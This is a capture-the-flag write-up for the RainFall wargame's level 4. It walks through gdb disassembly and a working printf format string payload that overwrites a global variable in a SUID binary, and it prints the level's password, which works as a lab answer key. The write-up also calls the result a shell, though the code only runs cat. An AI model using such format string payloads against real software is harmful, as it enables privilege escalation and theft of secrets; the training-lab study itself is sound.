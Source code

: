 # Level 4

## Vulnerability

Printf format string exploit

## Context

We find a binary with owner level5 and SUID.
```
level4@RainFall:~$ ls -l
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
The binary seems to do the same thing as in previous levels, read from stdin, and print what is given.
```
level4@RainFall:~$ ./level4
oh hi!
oh hi!
```

## Solution

Investigating with gdb, we find fgets(), unfortunately protected against buffer overflow attack. But printf() may provide our vulnerability, similar to the last level.
```
level4@RainFall:~$ gdb -q level4
...
(gdb) disas main
...
   0x080484ad <+6>:	call   0x8048457 <n>
...
(gdb) disas n
...
...
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>  ; call fgets()
...
   0x08048488 <+49>:	call   0x8048444 <p>          ; call function p() which calls printf()
   0x0804848d <+54>:	mov    0x8049810,%eax	      ; load value of global variable "m" at 0x8049810
   0x08048492 <+59>:	cmp    $0x1025544,%eax        ; compare global variable "m" with 0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>       ; if false jump past system() call
   0x08048499 <+66>:	movl   $0x8048590,(%esp)      ; load argument "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
...
(gdb) disas p
...
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf()
```
After calling printf() the binary compares the value of global variable ```m``` at ```0x8049810``` to ```0x1025544``` (16930116 in decimal).
If true a call to system() launches a shell.

Let's use the printf() format string exploit to change the value of variable ```m``` to ```0x1025544```.

First let's print the stack to find the address of the variable we wish to modify.
```
level4@RainFall:~$ python -c 'print "BBBB" + " %x" * 13' > /tmp/fmt_str
level4@RainFall:~$ cat /tmp/fmt_str | ./level4
BBBB b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
We find buffer BBBB (42424242) in 12th position.

Our target value ```16930116``` is too long for the ```%n``` exploit as used in the last level (%n stores only 4 bytes).
However, we can dynamically specify field width with modifier ```%d```  e.g. ```%16930116d```.

So we build our format string exploit:
1. Address of glabal variable ```m``` (4 bytes)          - "\x10\x98\x04\x08"
2. 16930112 bytes padding using ```%d```                 - "%16930112d"
3. store n bytes printed in 12th argument with ```%n```  - "%12$n"
```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/level4_exploit
```
When we feed this to the binary it opens a shell and shows us the level5 password
```
level4@RainFall:~$ cat /tmp/level4_exploit | ./level4
...
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
